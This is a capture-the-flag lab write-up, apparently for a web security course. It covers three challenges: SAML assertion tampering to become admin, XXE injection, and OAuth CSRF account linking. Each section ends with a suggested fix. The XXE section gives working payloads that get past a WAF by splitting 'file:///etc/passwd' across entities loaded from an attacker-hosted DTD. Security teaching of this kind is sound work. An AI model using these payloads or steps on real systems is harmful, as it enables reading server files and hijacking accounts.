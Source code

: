 # EXTENDED BREAK 2

REDACTED (z0000000) and REDACTED (z0000000)

## saml-super-secret.eu.ns.agency / hush-hush-con.eu.ns.agency 

flag: `flag{hmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmm}`

This site uses SAML as it's authentication system. 

Following along the authentication protocol, we can capture the SAML response and observe it's contents. From this, we realise that the server is not signing and verifying the integrity of its contents and therefore would not realise that the contents have not been modified. To test this, we initially changed the `nameid` field to `admin@definitely.not.cba.com.au` to see whether the request would go through, and it went through unchallenged, reflected in the email changed in the profile page confirming that it's not validated.

Importantly, we then noticed that the SAML xml response has an attribute named `userType`. This is likely to represent the type of a user and the permission it has on the application. 

By modifiying the `userType` to `Admin` we modify our user's permission and by completing the login we access our user's profile and get the flag that is located in the `last name` field.

This vulnerability is severe as it allows an attacker to assume the role of any known username uncontested and without a password, essentially risking high credential accounts being accessed.

This vulnerability can be patched by ensuring that all assertions are signed and validated against the signature's hash value. 


## xxe.ext2.ns.agency
flag: `COMP6843{lol_i_forgot_to_add_the_flag_lmao._thx_hpy}`

This site expects an XML file in the following format:
```
<very>
  <complex>
    <structure>
      <field1></field1>
      <field2></field2>
      <field3></field3>
    </structure>
  </complex>
</very>
```
Attempting to apply a standard XXE injection payload results in a `Hacking Shield 2 Triggered.` event. This implies that the site is being secured against XXE by a Web Application Firewall (WAF). Based on a standard payload of `<!ENTITY xxe SYSTEM 'file:///etc/passwd'>` we ascertained that the words `etc`, `passwd` and `file://` are captured by the WAF. Using a http server for indirection containing the following dtd on the server (which breaks up the words caught by the WAF):
```
<!ENTITY % file1 "file:">
<!ENTITY % file2 "///et">
<!ENTITY % file3 "c/passw">
<!ENTITY % file4 "d">
<!ENTITY % file "<!ENTITY contents SYSTEM '%file1;%file2;%file3;%file4;'>">
```
The payload for the application was:
```
<!ENTITY % ext SYSTEM 'http://<myhttpserver/ext2.dtd'>
%ext;
%file;
<very>
  <complex>
    <structure>
      <field1>&contents;</field1>
    </structure>
  </complex>
</very>
```
This produced the contents `/etc/passwd` in the `field1` field indicating that it was vulnerable to XXE.

To exploit this, we merely changed the `ext2.dtd` external definition to return the flag file as follows:
```
<!ENTITY % file1 "file:">
<!ENTITY % file2 "///flag">
<!ENTITY % file "<!ENTITY contents SYSTEM '%file1;%file2;'>">
```
Rerunning the payload against the application produces the flag in the `field1` field.

This vulnerability is severe as it can be demonstrated from above that it is possible to have arbitary read to the text fields on the file system including important system files.

This vulnerability can be patched simply by disabling external entities for XML.


## oauth.ext2.ns.agency / oauthclient.ext2.ns.agency 

flag: `COMP6843{only_took_4_hours_to_fix_last_years_oauth_challenge_____fun______279b6727-07f2-4c09-869a-430ce12ba8cc}`

For the following explanation, we will refer to `https://oauth.ext2.ns.agency/` as the oauth **Provider** and `https://oauthclient.ext2.ns.agency/` as the **Client**.

After testing several different oauth vulnerabilities, we found a CSRF vulnerability on oauth authorization response. 

Upon determining that this was the case, we exploited the application by the following steps:
1. We start by creating an account on the **Provider**.
2. We then go to the **Client** and sign in. This brings us back to the **Provider** with a request from `app1` to access our account. 
3. We click `authorize`. Before the **Provider** is able to redirect us back to the **Client**, we block the request and capture the `code` as well as the `state` that the **Provider** was trying to send back to the **Client**. The url looks similar to this: 
`https://oauthclient.ext2.ns.agency/authorize?code=PCcZgz779yzmtuVKsrC5EVBfd509qODpmoPruJ6XHrBDKJNV&state=KO3AdFlz57RSKEYYq0qlEiHcewj7Sk`
4. We go back to the **Client** and go to the contact page. From there we provide our authorize url with the code and state parameters as such: `authorize?code=PCcZgz779yzmtuVKsrC5EVBfd509qODpmoPruJ6XHrBDKJNV&state=KO3AdFlz57RSKEYYq0qlEiHcewj7Sk`
5. The admin visits our URL. At this point our account on the **Provider** is linked with the admin's account on the **Client**.
7. By signing in on the **Client** using oauth, we get access to the admin's account and as part of the history/logs we get the flag.


This is a severe vulnerability as it allows the adding of an unwanted provider to the user's account, though it is limited by needing the target to visit the URL. If the victim is an administrator (as in the exploit above) then consquently, the attacker can potentially access elevated and restricted functionalities.

To mitigate this vulnerability, the website should use oauth's built-in functionality: the `state` parameter. The state should be randomly generated and linked to the user's session similarly to a CSRF token. The value should be passed when making the request to the **Provider** and then checked again in the returned response. If the state is missing in the response or does not match the user's session, simply ignore the response.
